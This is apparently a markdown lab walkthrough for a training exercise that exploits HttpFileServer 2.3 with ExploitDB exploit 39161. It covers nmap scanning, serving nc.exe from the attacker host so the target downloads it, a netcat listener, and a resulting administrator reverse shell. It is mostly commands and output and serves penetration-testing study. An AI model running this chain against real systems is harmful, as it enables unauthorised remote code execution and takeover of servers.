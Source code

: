 # 🔬Fixing Exploits - HFS

## Lab 1

>  🔬 [Windows: HTTP File Server](https://attackdefense.com/challengedetails?cid=1945)
>
>  - Same as the [HFS - MSF Exploit Lab](../../hostnetwork-penetration-testing/3-metasploit/hfs-msf-exp.md)
>  - Target IP: `10.2.23.79`
>  - Manually exploit the target with **ExploitDB exploits**
>  - Attacker machine is offline

```bash
nmap -sV 10.2.23.79
```

```bash
80/tcp    open  http               HttpFileServer httpd 2.3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49165/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

- Use `searchsploit` to identify `HttpFileServer httpd 2.3` vulnerabilities

```bash
searchsploit HTTP File Server 2.3
```

![searchsploit HTTP File Server 2.3](assets/image-20230423132333200.png)

- Copy the exploit to the Desktop

```bash
cd Desktop/
searchsploit -m 39161
```

### Analyzing the Exploit

```bash
vim 39161.py
```

![](assets/image-20230423132623415.png)

- Read the exploit
  - *You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe). You may need to run it multiple times for success!*
  - `ip_addr` - change to attacker Kali Linux IP
  - `local_port` - change to 1234

### Execute the Exploit

- Save and run the exploit

```bash
# In a new terminal session
cd Desktop/
cp /usr/share/windows-resources/binaries/nc.exe .
python -m SimpleHTTPServer 80
```

```bash
# In a new terminal session
# Run the netcat listener on the exploit specified "local_port"
nc -nvlp 1234
```

```bash
# From the first terminal windows, run the exploit
python 39161.py 10.2.23.79 80
```

```bash
whoami
	win-omcnbkr66mn\administrator
systeminfo
```

![](assets/hfs-netcat-exp.gif)

------

